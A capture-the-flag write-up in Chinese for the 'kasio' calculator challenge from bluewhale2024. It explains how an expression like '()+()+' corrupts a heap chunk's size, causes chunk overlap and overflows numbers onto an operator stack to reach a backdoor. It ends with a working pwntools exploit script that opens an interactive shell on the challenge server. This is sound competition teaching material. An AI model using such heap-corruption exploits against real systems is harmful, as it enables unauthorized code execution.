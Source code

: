 ```yaml
---
title: bluewhale2024 - 卡死欧计算器 
date: 2024/5/3 23:44:00
tags:
    - heap - tcache
    - buffer nearby-flow
---
```


{% note %}
李明写的一个简单的表达式计算器，输入诸如`2*(3+4)^5`的式子回车即可进行计算  
就是有时候不太好使不知道为啥就死机了
 李明发现的可以让计算器卡死的最小复现：  
> `()+()+1`  
> `报错： double free or corruption (out)`
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

通过给的提示不难发现，程序将`1.0`这一double值写在了堆块尺寸上，导致了free时的异常，
由此，我们得到了修改堆块尺寸的原语，如果能造成堆块重叠，就能将数字从`num_stack`溢出写到`op_stack`，
使得原本无法输入的#字符出现在`op_stack`上，实现运行后门，具体解释如图所示

![kasio heap layout](/assets/bluewhale2024/kasio.png)

有以下几点可以再解释：
1. 分配堆块大小由token数决定，由于token由数字和操作构成，故一般情况下不能利用
2. 要想获得"0x91"的double值，需使用"0x60"的字面量，看起来有精度损失
3. 需要用`1+(`的方式来将数字push到栈上，直接运算就无法溢出了
4. `()+()+`会导致将数字写入到`num_stack[top]`，而top已经变成-1了，对应堆块的size

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./kasio')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20128)
    magic = '4.7430302000759668e-322' # 0x60 -> 0x91
    sharp = '2.0087766792234922e-139' # '########'

    sh.sendlineafter(b'input', b'1+1+1')                    # 0x31, 0x21
    sh.sendlineafter(b'input', b'1+1+1+1')                  # 0x31(free), 0x21, 0x41
    sh.sendlineafter(b'input', f'()+()+{magic}'.encode())   # 0x31 -> 0x91, 0x21, 0x41(free)
    sh.sendlineafter(b'input', f'1+(2+(3+(4+(5+({sharp})))))'.encode())

    sh.clean()
    sh.interactive()
    sh.close()
```
